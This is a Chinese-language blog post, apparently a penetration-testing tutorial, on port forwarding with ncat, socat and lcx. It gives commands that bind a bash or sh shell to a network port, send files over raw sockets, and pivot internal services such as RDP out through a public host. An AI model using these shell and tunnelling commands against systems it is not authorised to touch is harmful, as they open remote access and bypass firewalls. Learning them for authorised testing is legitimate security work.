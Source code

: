 ```yaml
---
layout: post
title:  "端口转发工具小结"
date:   2017-07-31
categories: 内网渗透
permalink: /archivers/2017-07-31/1
description: "介绍几款端口转发工具"
---
```

介绍几款端口转发工具
<!--more-->
* 目录
{:toc}

## 0X00 ncat

### 反弹shell

服务器：`ncat -lnv -c bash 4489`  将bash转发到4489端口

客户端：`ncat -nv 172.17.0.1 4489` 连接到目标的4489即可获得交互式bash

Windows下用 `-c C:\windows\system32\cmd.exe`

参数介绍：

|`-l,--listen <port>` | 监听某个端口
| `-n, --nodns`　     |不通过DNS解析主机名
| `-v,--verbose`      |设置的详细程度(可以使用几次)
| `-c,--sh-exec`      | 执行传递的命令行

### 建立聊天室

服务端：`ncat -lnv --broker --chat 8432`

客户端：`ncat -nv 172.17.0.1 8432`

参数介绍：

| `--broker` | 使用ncat的代理连接模式，允许多个组织连接到ncat的服务器和其他人交流，ncat能创建一个经纪人在连接和系统之间通过NAT或者其他的直接连接。这个选项是和监听模式一起使用的。这会使监听端口的经纪人模式启动
| `--chat`   |　开启一个简单的ncat聊天服务器

### 采用SSL加密

* 服务器：`ncat -lnv -c bash 4489 --ssl`
* 客户端：`ncat -nv 172.17.0.1 4489 --ssl`

### 传输文件

服务端：
```
root@Kali:~$ ncat -lnv 1788 > tmp.txt
Ncat: Version 7.01 ( https://nmap.org/ncat )
Ncat: Listening on :::1788
Ncat: Listening on 0.0.0.0:1788
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:48004.
```

客户端：
```
root@504d96ae69cc:/docker_files# cat tmp.txt 
hello :)
root@504d96ae69cc:/docker_files# ncat -nv 172.17.0.1 1788 < tmp.txt 
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Connected to 172.17.0.1:1788.
Ncat: 9 bytes sent, 0 bytes received in 0.01 seconds.
root@504d96ae69cc:/docker_files# 
```


### 参数列表(中文)

[ncat参数](/tools/ncat.txt)

## 0x01 socat

### 安装

```bash
wget http://www.dest-unreach.org/socat/download/socat-2.0.0-b9.tar.gz
tar xvf socat-2.0.0-b9.tar.gz
cd socat-2.0.0-b9
./configure
make
make install
```


### 建立通信(聊天室)

| 服务端 | `socat - tcp4-listen:4444`
| 客户端 | `socat tcp:SERVER_IP:4444`

### 传输文件

| 服务端 | `socat tcp4-listen:4444 open:data.txt,creat,append` |
| 客户端 | `cat test.txt | socat - tcp:SERVER_IP:4444` |

> 传输二进制文件需要将append改成binary

### 反弹Shell

| 服务端 | `socat tcp-l:4444 exec:sh,pty,stderr`
| 客户端 | `socat - tcp:SERVER_IP:4444`
| tcp-l 是 `tcp4-listen` 的简写

### 端口转发

`socat - tcp-l:8888,fork tcp4:192.168.3.1:4477`

当本机接收到8888端口的数据，将全部转发给192.168.3.1主机上的4477端口

### UDP通信

| 服务端 | `socat - udp-l:4456` |
| 客户端 | `socat - udp-datagram:192.168.3.1:4456`
| 

### 公网转发到内网

| 服务端 | `socat tcp-listen:1234 tcp-listen:22` | 外网IP(`60.*.*.*`)
| 客户端 | `socat tcp:60.*.*.*:1234 tcp:192.168.3.1:22` | 内网IP(192.168.3.1)

### 内网转发到公网

```
                  ------------
                 |   Server   |
                 |  60.*.*.*  |
                  ------------
                 /            \
          {|<Firewall>|}    {|<Firewall>|}
                |                 |
          --------------      ----------------        
         | (192.168.3.1)|     | (192.168.3.2) |
          --------------      ----------------
       (hosting a service    (wanting to access
         on port 4200)         Client A port 4200)
```

| 服务端 | `socat - tcp-l:10000 tcp-l:4200`
| 客户端 | `socat tcp4:60.*.*.*:10000 tcp4:localhost:4200`

### 参考文档

[socat使用手册](/tools/socat)

## 0x02 lcx（go语言编写）

被控端192.168.10.2 ：

lcx <公网IP> 123

控制端 111.111.111.111：

lcx 456 123 192.168.10.2 3389

此时访问111.111.111.111的456就等于192.168.10.2:3389

[Download](http://www.secpulse.com/wp-content/uploads/2015/05/lcx._g.rar)
[相关文章](https://www.secpulse.com/archives/6341.html)




